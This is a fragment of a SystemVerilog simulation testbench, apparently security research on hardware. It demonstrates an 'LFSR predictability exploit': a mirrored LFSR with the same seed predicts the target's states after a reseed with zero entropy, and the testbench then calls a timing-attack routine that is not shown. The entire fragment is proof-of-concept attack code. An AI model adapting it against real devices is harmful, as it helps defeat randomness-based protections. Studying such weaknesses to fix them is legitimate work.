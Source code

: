 ```systemverilog
  
  // Attacker's prediction LFSR (identical configuration)
  prim_lfsr #(
    .LfsrDw(LfsrWidth),
    .DefaultSeed(RndCnstLfsrSeed)
  ) prediction_lfsr (
    .clk_i(clk),
    .rst_ni(rst_n),
    .lfsr_en_i(1'b1),
    .seed_en_i(reseed_en),
    .entropy_i('0),  // Attacker knows entropy is zero
    .state_o(predicted_state)
  );
  
  integer correct_predictions = 0;
  integer total_predictions = 0;
  
  initial begin
    $display("=== LFSR Predictability Exploit ===");
    
    // Initialize
    clk = 0;
    rst_n = 0;
    reseed_en = 0;
    
    // Reset both LFSRs
    #20;
    rst_n = 1;
    
    // Simulate entropy source failure (common attack scenario)
    $display("Simulating entropy source failure...");
    reseed_en = 1;  // Trigger reseed with zero entropy
    #10;
    reseed_en = 0;
    
    // Predict next 100 LFSR states
    $display("Predicting LFSR sequence...");
    for (int i = 0; i < 100; i++) begin
      #10;
      total_predictions++;
      
      if (lfsr_state == predicted_state) begin
        correct_predictions++;
      end else begin
        $display("Prediction failed at step %0d: expected %h, got %h", 
                 i, predicted_state, lfsr_state);
      end
    end
    
    // Calculate prediction accuracy
    real accuracy = (100.0 * correct_predictions) / total_predictions;
    $display("Prediction accuracy: %0.1f%% (%0d/%0d)", 
             accuracy, correct_predictions, total_predictions);
    
    if (accuracy > 90.0) begin
      $display("SUCCESS: LFSR sequence is predictable!");
      $display("Attacker can now predict ping timing patterns");
    end
    
    // Demonstrate timing attack
    demonstrate_timing_attack();
  end
  
```
